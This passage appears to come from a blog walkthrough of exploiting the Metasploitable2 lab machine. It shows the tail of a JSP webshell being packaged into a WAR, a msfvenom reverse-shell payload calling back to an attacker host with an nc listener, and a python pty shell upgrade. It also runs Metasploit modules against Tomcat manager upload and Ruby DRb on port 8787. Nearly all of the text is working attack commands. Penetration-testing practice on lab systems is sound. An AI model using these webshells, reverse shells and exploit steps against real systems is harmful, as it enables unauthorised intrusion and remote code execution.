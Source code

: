 ```jsp
%>
<pre><%=output %></pre>

```


now pack the webshell

```
mkdir webshell
cp index.jsp webshell

cd webshell
jar -cvf ../webshell.war *
```


deploy it and visit http://192.168.79.179:8180/webshell/index.jsp?

{% img  /images/blog/misc/metasploitable2/Selection_015.png   [title manually exploit [alt text]] %}

use msfvenom to create webshell:

`msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.79.173 lport=4444 -f war > webshell1.war`

setup nc in kali, deploy it and visit http://192.168.79.179:8180/webshell1/


After connection, get the shell:

`python -c 'import pty; pty.spawn("/bin/bash")'`


{% img  /images/blog/misc/metasploitable2/Selection_016.png   [title manually exploit [alt text]] %}


Use Metasploit:

`msf > search tomcat`

{% img  /images/blog/misc/metasploitable2/Selection_017.png   [title manually exploit [alt text]] %}

```
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > set rhost 192.168.79.179
msf exploit(tomcat_mgr_upload) > set rport 8180
msf exploit(tomcat_mgr_upload) > exploit
```

{% img  /images/blog/misc/metasploitable2/Selection_018.png   [title manually exploit [alt text]] %}



### Ruby DRb RMI (port 8787)

search drb, find an exploit `exploit/linux/misc/drb_remote_codeexec`

```
msf > use exploit/linux/misc/drb_remote_codeexec
msf exploit(drb_remote_codeexec) > set uri druby://192.168.79.179:8787
msf exploit(drb_remote_codeexec) > exploit
```
